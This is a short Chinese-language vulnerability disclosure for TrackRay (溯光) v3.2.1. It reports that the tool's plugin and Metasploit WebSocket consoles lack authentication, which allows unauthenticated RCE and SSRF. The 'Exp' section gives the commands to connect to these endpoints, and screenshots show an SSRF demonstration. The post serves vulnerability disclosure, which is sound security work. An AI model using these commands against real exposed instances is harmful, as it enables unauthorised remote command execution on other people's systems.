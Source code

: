 # 溯光（TrackRay）3.2.1 未授权RCE

## Target & Version
项目地址：https://github.com/iSafeBlue/TrackRay  

版本：v3.2.1

## Background
扫github的时候看到的这个项目，虽然有900+个 stars，感觉不咋火。
其中首页注意中的一句话吸引了我  
![-w710](media/15909787372321/15911725266740.jpg)

本着日行一善的原则，决定帮它火一把。

## Exp
TrackRay的两个交互式控制台，用WebSocket实现
![-w1411](media/15909787372321/15911724359679.jpg)
WebSocket未做任何授权认证，所以这两个console就是白给。利用方式很简单
exp：
```
# 安装websockets
pip3 install websockets
# 连接 plugin console
python3 -m websockets ws://[ip]:[port]/plugin.ws
# 连接 msf consle
python3 -m websockets ws://[ip]:[port]/msf.ws
```

## Poc
由于我的msfrpcd始终没有配置成功，这里就懒得折腾，演示一个利用 plugin console 实现未授权ssrf的效果，rce也是一样，不过连的是 msf console：
连接 plugin consle
![-w1120](media/15909787372321/15911181426135.jpg)

寻找所有可用插件，使用默认提供的crawlergoScan
![-w1440](media/15909787372321/15911181721229.jpg)

ssrf
![-w1440](media/15909787372321/15911182142090.jpg)

![-w964](media/15909787372321/15911182371403.jpg)


